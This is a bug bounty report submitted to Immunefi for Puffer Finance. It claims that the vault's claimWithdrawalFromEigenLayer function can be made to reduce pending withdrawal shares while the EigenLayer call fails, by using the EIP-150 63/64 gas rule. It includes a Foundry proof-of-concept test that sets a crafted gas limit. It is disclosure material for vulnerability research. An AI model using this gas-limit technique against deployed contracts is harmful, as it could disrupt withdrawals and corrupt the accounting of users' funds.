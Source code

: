 
# External Call from Eigen Layer can fail silently in the claimWithdrawalFromEigenLayer function

Submitted on Feb 25th 2024 at 12:05:50 UTC by @Cryptor for [Boost | Puffer Finance](https://immunefi.com/bounty/pufferfinance-boost/)

Report ID: #28732

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

Impacts:
- Contract fails to deliver promised returns, but doesn't lose value

## Description
## Brief/Intro

The function claimWithdrawalFromEigenLayer is unprotected and makes an external call to eigen layer at the end of the function without checking the return value. This can result in a possible exploit where a user can call claimWithdrawalFromEigenLayer and pass in just enough gas to reduce the amount of pending shares while the eigenlayer call fails  

## Vulnerability Details

Observe the following code 

https://github.com/PufferFinance/pufETH/blob/14b15a3c94b65d895ea08b5faa1cfed0dfc18bd0/src/PufferVault.sol#L222-L243

The function claimWithdrawalFromEigenLayer allows a user to claim stETH withdrawals from EigenLayer. If fetches some values from Eigen Layer and then makes some checks. Pay attention to the following lines 

``` 
  $.eigenLayerPendingWithdrawalSharesAmount -= queuedWithdrawal.shares[0];

        _EIGEN_STRATEGY_MANAGER.completeQueuedWithdrawal({
            queuedWithdrawal: queuedWithdrawal,
            tokens: tokens,
            middlewareTimesIndex: middlewareTimesIndex,
            receiveAsTokens: true
        });
```

It reduces the pending shares and then makes an external call to Eigen to complete the queued withdrawal of shares. However due to the 1/64th rule in etheruem and the lack of a return value check on the external call, there is a way to make the function pass while making the external call to eigen silently fail causing an erroneous accounting of eigenLayerPendingWithdrawalSharesAmount, which can be reduced without any withdrawal actually taking place.



## Impact Details

A bad actor exploiting this vulnerability could disrupt the withdrawal process. By causing the external call to Eigen to fail while reducing the pending shares, the actor could manipulate the queuing system. This could ultimately lead to withdrawals being delayed or, in worse scenarios, not processed at all.


## References

https://medium.com/iovlabs-innovation-stories/the-dark-side-of-ethereum-1-64th-call-gas-reduction-ba661778568c

https://github.com/ethereum/EIPs/blob/master/EIPS/eip-150.md

https://solodit.xyz/issues/h-08-gas-limit-check-is-inaccurate-leading-to-an-operator-being-able-to-fail-a-job-intentionally-code4rena-holograph-holograph-contest-git




## Proof of Concept


(Note: The following helper external view function was added to the puffervault contract to fetch share value from the VaultStorage struct to make writing the test easier. Nothing else has changed in the code.)

``` 
function getvaultwithdrawshares () public view returns (uint) {

          VaultStorage storage $ = _getPufferVaultStorage();

        return $.eigenLayerPendingWithdrawalSharesAmount;
    }
```

Foundry Test (modified test_withdraw_from_eigenlayer):

```
function test_withdraw_from_eigenLayer()
        public
        giveToken(BLAST_DEPOSIT, address(stETH), address(pufferVault), 1000 ether) // Blast got a lot of stETH
    {

         
        // Simulate stETH cap increase call on EL
        _increaseELstETHCap();

        vm.startPrank(OPERATIONS_MULTISIG);
        pufferVault.depositToEigenLayer(stETH.balanceOf(address(pufferVault)));

        uint256 ownedShares = _EIGEN_STRATEGY_MANAGER.stakerStrategyShares(address(pufferVault), _EIGEN_STETH_STRATEGY);

        uint256 assetsBefore = pufferVault.totalAssets();

        // Initiate the withdrawal
        pufferVault.initiateStETHWithdrawalFromEigenLayer(ownedShares);

        // 1 wei diff because of rounding
        assertApproxEqAbs(assetsBefore, pufferVault.totalAssets(), 1, "should remain the same when locked");

        IERC20[] memory tokens = new IERC20[](1);
        tokens[0] = IERC20(address(stETH));

        IStrategy[] memory strategies = new IStrategy[](1);
        strategies[0] = IStrategy(_EIGEN_STETH_STRATEGY);

        uint256[] memory shares = new uint256[](1);
        shares[0] = ownedShares;

        IEigenLayer.WithdrawerAndNonce memory withdrawerAndNonce =
            IEigenLayer.WithdrawerAndNonce({ withdrawer: address(pufferVault), nonce: 0 });

        IEigenLayer.QueuedWithdrawal memory queuedWithdrawal = IEigenLayer.QueuedWithdrawal({
            strategies: strategies,
            shares: shares,
            depositor: address(pufferVault),
            withdrawerAndNonce: withdrawerAndNonce,
            withdrawalStartBlock: uint32(block.number),
            delegatedAddress: address(0)
        });

        // Roll block number + 100k blocks into the future
        vm.roll(block.number + 100000);


        
        
        /*added an external helper function getvaultwithdrawshares to the puffer vault contract to fetch 
        the pendingwithdrawsharesamount */
        uint puffervaultsharesbefore = pufferVault.getvaultwithdrawshares();


        /*Exploits EIP 150 to pass in just enough gas to reduce shares amount while allowing 
        the external call to eigen layer to fail silently 
        */
        uint gasLimit = (gasleft()* 63/64) - 1;

        /* Claim Withdrawal. Final call to Eigen Layer would revert while the erroneous accouting of   shares still remain */
        pufferVault.claimWithdrawalFromEigenLayer{gas: gasLimit}(queuedWithdrawal, tokens, 0);

        //
        uint puffervaultsharesafter = pufferVault.getvaultwithdrawshares();

        assert(puffervaultsharesafter < puffervaultsharesbefore);

       
    }
```